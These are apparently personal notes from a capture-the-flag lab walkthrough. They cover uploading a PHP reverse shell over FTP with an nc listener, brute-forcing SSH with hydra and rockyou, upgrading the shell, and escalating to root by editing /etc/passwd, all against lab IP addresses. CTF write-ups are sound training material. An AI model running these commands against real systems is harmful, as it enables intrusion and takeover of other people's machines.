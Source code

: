 Other players writeup
> https://kir0sploit.github.io/2023/02/cybersphere-writeup/

# Command and Techniques:

nmap -sC -p- -sV $IP -oN nmap.txt –vv

ftp: put reverse shell
> php PentestMonkey
> put the openvpn ip
> save the file on current dir

cd webalizer

put getin.php

bye

## Run reverseshell:

- attacker先run： nc -nlvp 8899
- run the reverse shell by running the web browser: 10.10.207.136/webalizer/getin.php

hydra  -l   jack  -P  /usr/share/wordlists/rockyou.txt   ssh://10.10.233.62

login: jack   password: qwertyuiop

goto /home we know that user is jack.
- we dont know the password
- use the hydra to bruteforce the ssh password
- after knowing the password, su jack
- execute interactive command:

	python2 -c 'import pty;pty.spawn("/bin/bash")'
	
	export TERM=xterm
	
	press CTRL + Z
	
	stty raw -echo;fg
	
- open new terminal: run another remote command

boom! get the jack shell

or

ssh jack@10.10.233.62 

run the Linpeas tool on the /tmp directory - to see which path is vulnerable that we could edit/modify

ls  -al  /etc/passwd

or

sudo -l

generate encryted password: openssl passwd [your password]

nano  /etc/passwd - paste the passwd on x

su root

